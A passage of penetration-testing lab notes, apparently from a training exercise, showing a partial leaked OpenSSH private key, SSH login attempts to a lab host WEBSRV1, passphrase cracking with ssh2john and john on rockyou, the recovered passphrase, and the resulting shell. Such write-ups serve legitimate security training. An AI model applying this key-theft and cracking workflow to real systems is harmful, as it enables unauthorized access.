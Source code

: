```bash
	t9SDl3nbnbJIwqcq4Twymf5uWkzLiSvk7pKMbSOjx4hpxfqb4WuC0uFeijfMnMrIIb8FxQ
	bQUwrNcxJOTchq5Wdpc+L5XtwA6a3MyM+mud6cZXF8M7GlCkOC0T21O+eNcROSXSg0jNtD
	UoRUBJIeKEdUlvbjNuXE26AwzrITwrQRlwZP5WY+UwHgM2rx1SFmCHmbcfbD8j9YrYgUAu
	vJbdmDQSd7+WQ2RuTDhK2LWCO3YbtOd6p84fKpOfFQeBLmmSKTKSOddcSTpIRSu7RCMvqw
	l+pUiIuSNB2JrMzRAirldv6FODOlbtO6P/iwAO4UbNCTkyRkeOAz1DiNLEHfAZrlPbRHpm
	QduOTpMIvVMIJcfeYF1GJ4ggUG4=
	-----END OPENSSH PRIVATE KEY-----
```
	- Save key in its own file - ex: daniela_idrsa

- Use key to attempt to access WEBSRV1
```bash
chmod 600 daniela_idrsa

ssh -i daniela_idrsa daniela@192.168.181.244
	The authenticity of host '192.168.181.244 (192.168.181.244)' can''t be established.
	ED25519 key fingerprint is SHA256:vhxi+CCQgvUHPEgu5nTN85QQZihXqJCE34zq/OU48VM.
	This key is not known by any other names.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '192.168.181.244' (ED25519) to the list of known hosts.
	Enter passphrase for key 'daniela_idrsa': 
```

- Attempt to crack the passphrase w/ [ssh2john](CheatSheet.md#Cracking%20ssh%20key%20passcodes)
```bash
ssh2john daniela_idrsa > ssh.hash           

john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash 
	...
	tequieromucho    (daniela_idrsa)     
	...
```

- Use key to gain access to WEBSRV1
```bash
ssh -i daniela_idrsa daniela@192.168.181.244
	Enter passphrase for key 'daniela_idrsa':   [tequieromucho]
		Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-50-generic x86_64)
		
		 * Documentation:  https://help.ubuntu.com
		 * Management:     https://landscape.canonical.com
		 * Support:        https://ubuntu.com/advantage
		
		  System information as of Fri Sep 13 12:44:45 AM UTC 2024
		
		  System load:  0.080078125       Processes:               206
		  Usage of /:   73.8% of 8.02GB   Users logged in:         0
		  Memory usage: 21%               IPv4 address for ens192: 192.168.181.244
		  Swap usage:   0%
		
		 * Super-optimized for small spaces - read how we shrank the memory
		   footprint of MicroK8s to make it the smallest full K8s around.
		
		   https://ubuntu.com/blog/microk8s-memory-optimisation
		
		13 updates can be applied immediately.
		To see these additional updates run: apt list --upgradable
		
		
		The list of available updates is more than a week old.
		To check for new updates run: sudo apt update
		
		Last login: Wed Nov  2 09:57:32 2022 from 192.168.118.5
		daniela@websrv1:~$ whoami
			daniela
```